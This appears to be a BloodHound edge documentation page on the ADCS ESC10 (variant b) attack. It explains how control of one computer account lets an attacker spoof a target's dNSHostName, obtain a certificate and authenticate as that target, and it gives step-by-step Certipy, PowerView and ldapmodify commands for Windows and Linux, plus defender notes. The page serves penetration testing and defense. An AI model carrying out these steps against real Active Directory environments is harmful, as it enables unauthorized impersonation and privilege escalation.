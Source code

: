---
title: ADCSESC10b
description: "The principal has control over a victim computer with permission to enroll on one or more certificate templates, configured to enable certificate authentication, and require the `dNSHostName` of the enrollee included in the Subject Alternative Name (SAN)."
---


<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>

The victim computer also has enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. There is an affected Domain Controller (DC) configured to allow UPN certificate mapping. This setup lets the principal impersonate any AD forest computer without their credentials.

The attacker principal can abuse their control over the victim computer to modify the victim computer's `dNSHostName` attribute to match the `dNSHostName` of a targeted computer. The attacker principal will then abuse their control over the victim computer to obtain the credentials of the victim computer, or a session as the victim computer, and enroll a certificate as the victim in one of the affected certificate templates. The `dNSHostName` of the victim will be included in the issued certificate under SAN DNS name. The UPN certificate mapping configuration on the affected DCs make it possible to authenticate over Schannel as the targeted computer. The DC will split the SAN DNS name into a computer name and a domain name, confirm that the domain name is correct, and use the computer name appended a $ to identify a computer with matching `sAMAccountName` which the attacker will be authenticated as.

## Abuse Info

### Windows

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`. 

Set SPN of the victim computer using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 2: Create .exe version of Certipy. 

Install PyInstaller on a host with python installed, clone down Certipy from GitHub, and run this cmdlet from the root of the GitHub repo to bundle the python project into an .exe binary which can be used on Windows computer where Python is not installed:

```bash
pyinstaller ./Certipy.spec
```

The Certipy.exe will be in the _dist_ folder.

Step 3: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set `dNSHostName` of the victim principal using Certipy:

```bash
Certipy.exe account update -u ATTACKER@CORP.LOCAL -p PWD -user VICTIM$ -dns TARGET.CORP.LOCAL
```

Step 4: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 5.

If any of the two flags are present, you will need the victim’s mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using PowerView:

```bash
Get-DomainObject -Identity VICTIM -Properties mail
```
If the victim has the mail attribute set, continue to Step 5.

If the victim does not has the mail attribute set, set it to a dummy mail using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'mail'='dummy@mail.com'}
```
Step 5: Obtain a session as victim.  There are several options for this step.

You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/hc/en-us/articles/GenericAll) documentation).

Step 6: Enroll certificate as victim. 

Use Certipy as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
Certipy.exe req -u VICTIM$ -p PWD -ca CA-NAME -target CA-SERVER -template TEMPLATE
```

The issued certificate will be saved to disk with the name of the targeted user.

Step 7 (Optional): Set `dNSHostName` and SPN of victim to the previous value.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to it’s previous values using Certipy and PowerView:

```bash
Certipy.exe account update -u ATTACKER@CORP.LOCAL -p PWD -user VICTIM$ -dns VICTIM.CORP.LOCAL
```
```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 8: Perform Schannel authentication as targeted principal against affected DC using certificate.

Open an LDAP shell as the victim using Certipy by specifying the certificate created in Step 6 and the IP of an affected DC:

```bash
Certipy.exe auth -pfx TARGET.pfx -dc-ip IP -ldap-shell
```
**Linux**

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`.

Remove SPN entries with ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\ndelete: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 2: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set `dNSHostName` of the victim principal using Certipy:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM$ -dns TARGET.CORP.LOCAL
```

Step 3: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 4.

If any of the two flags are present, you will need the victim’s mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using ldapsearch:

```bash
ldapsearch -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME -b "VICTIM-DN" mail
```

If the victim has the mail attribute set, continue to Step 4.

If the victim does not has the mail attribute set, set it to a dummy mail using ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nreplace: mail\nmail: test@mail.com" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 4: Obtain a session as victim.  There are several options for this step.

You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/hc/en-us/articles/GenericAll) documentation).

Step 5: Enroll certificate as victim. 

Use Certipy as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
certipy req -u VICTIM@CORP.LOCAL -p PWD -ca CA-NAME -target CA-SERVER -template TEMPLATE
```

The issued certificate will be saved to disk with the name of the targeted user.

Step 6 (Optional): Set `dNSHostName` and SPN of victim to the previous value.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to it’s previous value using Certipy and ldapmodify:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -dns VICTIM.CORP.LOCAL
```
```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nadd: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 7: Perform Schannel authentication as targeted principal against affected DC using certificate.

Open an LDAP shell as the victim using Certipy by specifying the certificate created in Step 5 and the IP of an affected DC:

```bash
certipy auth -pfx TARGET.pfx -dc-ip IP -ldap-shell
```

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [https://attack.mitre.org/techniques/T1649/](https://attack.mitre.org/techniques/T1649/) 

### Abuse and Opsec references

* [Certipy](https://github.com/ly4k/Ce)
* [Certipy 4.0](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
* [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject)
* [LDAPSearch](https://linux.die.net/man/1/ldapsearch)
* [LDAPModify](https://linux.die.net/man/1/ldapmodify)
